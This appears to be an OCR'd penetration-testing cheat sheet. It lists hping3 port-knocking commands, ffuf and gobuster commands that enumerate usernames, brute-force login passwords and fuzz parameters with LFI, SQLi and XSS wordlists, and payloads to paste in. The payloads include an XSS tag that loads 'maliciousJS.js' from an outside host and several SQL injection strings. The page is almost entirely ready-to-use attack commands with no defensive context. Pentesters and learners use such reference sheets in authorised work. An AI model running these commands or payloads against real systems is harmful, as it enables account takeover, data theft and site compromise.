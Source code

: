 ### Port knocking

TCP flags: FIN, SYN, RST, PSH, ACK, URG

- `hping3 -c 9 -F -p 7000 10.10.13.11` <-- FIN port knock
- `hping3 -c 9 -S -p 7000 10.10.13.11` <-- SYN port knock
- `hping3 -c 9 -R -p 7000 10.10.13.11` <-- RST port knock
- `hping3 -c 9 -P -p 7000 10.10.13.11` <-- PSH port knock
- `hping3 -c 9 -A -p 7000 10.10.13.11` <-- ACK port knock
- `hping3 -c 9 -U -p 7000 10.10.13.11` <-- URG port knock

## Webapplications <a name="enum-webb"></a>

### Normal endpoints <a name="enum-webb-endp"></a>

- /robots.txt <-- What search engines are not allowed to show
- /sitemap.xml <-- What user can look at

### Subdomain enumeration <a name="enum-webb-subd"></a>

- `ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.mysite.com`
- `ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://website.com/ -mr "user exists"`
- `ffuf -w /usr/share/seclists/Usernames/Names/names.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://mysite.com/ -fc 200`
- `gobuster dir -u http://localhost:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
- `gobuster fuzz -u http://FUZZ.localhost:8080/ -w /usr/share/seclists/Discovery/Subdomains/subdomains-top1mil.txt`

### Brute-force vulnerabilities <a name="enum-webb-bfvuln"></a>

- `ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://mysite.com/get?id=FUZZ`
- `ffuf -w /usr/share/seclists/Fuzzing/Databases/MySQL.fuzzdb.txt -u http://mysite.com/get?id=FUZZ`
- `ffuf -w /usr/share/seclists/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt -u http://mysite.com/get?id=FUZZ`
- `ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://mysite.com/get?id=FUZZ`
- `ffuf -w /usr/share/seclists/Fuzzing/LDAP.Fuzzing.txt -u http://mysite.com/get?id=FUZZ`

### XSS <a name="xss"></a>

- `<script src="http://10.0.2.15:8080/maliciousJS.js" />`
- `<script>alert('XSS')</script>`
- `<img onerror="alert('XSS')" />`

### SQLi <a name="sqli"></a>

`' OR 1=1;--`
`' OR 1=1 order by 1--`
`' OR 1=1 union select 1`
